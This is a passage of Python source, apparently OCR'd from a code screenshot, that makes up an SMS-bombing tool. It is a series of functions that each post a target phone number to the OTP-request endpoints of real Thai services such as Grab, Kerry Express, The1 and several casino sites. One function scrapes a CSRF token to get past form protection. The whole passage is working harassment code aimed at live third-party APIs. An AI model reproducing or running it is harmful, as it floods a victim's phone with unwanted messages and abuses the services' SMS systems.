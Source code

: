              headers={"User-Agent": useragent}, data={"number": f"+66{phone[1:]}"})

    def sk9(phone):

        post("https://api.sacasino9x.com/api/RegisterService/RequestOTP",

             headers={"User-Agent": useragent}, json={"Phone": phone})

    def sk10(phone):

        post("https://shoponline.ondemand.in.th/OtpVerification/VerifyOTP/SendOtp",

             headers={"User-Agent": useragent}, data={"phone": phone})

    def sk11(phone):

        post("https://www.konvy.com/ajax/system.php?type=reg&action=get_phone_code",

             headers={"User-Agent": useragent}, data={"phone": phone})

    def sk12(phone):

        post("https://partner-api.grab.com/grabid/v1/oauth2/otp", headers={"User-Agent": useragent}, json={"client_id": "4ddf78ade8324462988fec5bfc5874c2", "transaction_ctx": "null",

             "country_code": "TH", "method": "SMS", "num_digits": "6", "scope": "openid profile.read foodweb.order foodweb.rewards foodweb.get_enterprise_profile", "phone_number": f"66{phone[1:]}"})

    def sk13(phone):

        post("https://api.scg-id.com/api/otp/send_otp", headers={

             "User-Agent": useragent, "Content-Type": "application/json;charset=UTF-8"}, json={"phone_no": phone})

    def sk14(phone):

        session = Session()

        searchItem = session.get("https://www.shopat24.com/register/").text

        ReqTOKEN = search(

            """<input type="hidden" name="_csrf" value="(.*)" />""", searchItem).group(1)

        session.post("https://www.shopat24.com/register/ajax/requestotp/", headers={

                     "User-Agent": useragent, "content-type": "application/x-www-form-urlencoded; charset=UTF-8", "X-CSRF-TOKEN": ReqTOKEN}, data={"phoneNumber": phone})

    def sk15(phone):

        post("https://prettygaming168-api.auto888.cloud/api/v3/otp/send",

             headers={"User-Agent": useragent}, data={"tel": phone, "otp_type": "register"})

    def sk16(phone):

        post("https://the1web-api.the1.co.th/api/t1p/regis/requestOTP", headers={

             "User-Agent": useragent}, json={"on": {"value": phone, "country": "66"}, "type": "mobile"})

    def sk17(phone):

        post(f"https://th.kerryexpress.com/website-api/api/OTP/v1/RequestOTP/{phone}", headers={

